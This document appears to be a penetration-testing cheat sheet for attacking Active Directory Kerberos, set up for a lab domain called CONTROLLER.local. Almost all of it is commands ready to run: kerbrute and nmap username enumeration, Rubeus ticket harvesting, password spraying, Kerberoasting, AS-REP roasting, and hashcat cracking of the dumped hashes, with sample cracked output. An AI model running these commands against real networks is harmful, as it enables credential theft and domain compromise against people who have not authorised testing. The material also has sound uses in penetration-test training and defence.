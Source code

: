 
### Enumerate usernames with kerbrute
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local ad-usernames.txt -v

Enumerate with nmap
└─$ nmap -p 88 -script-args krb5-enum-users.realm=’10.11.70.89’,userdb=ad-usernames.txt ...DC IP...

### Rubeus
<i>Attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting. brute force passwords as well as password spray user accounts</i>

///<b> Harvest tickets every 30 sec </b>
.\Rubeus harvest /interval:30
### Add host to windows hosts file 
echo 10.10.10.10 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
### Password spray with Rubeus
<i>Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.</i>

Rubeus.exe brute /password:Password1 /noticket

### Kerberoast with Rubeus
<i> Will automatically dump Kerberos hash of any kerberoastable users </i>

Rubeus.exe kerberoast

## ASREP Roast with Rubeus
<i>This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.</i>

Rubeus.exe asreproast

### Crack the kerberos hash with Hashcat
hashcat -m 13100 -a 0 HASH.txt rockyou.txt

output:
...snipped.....fd67337290d589b1436f6b56:MYPassword123#




















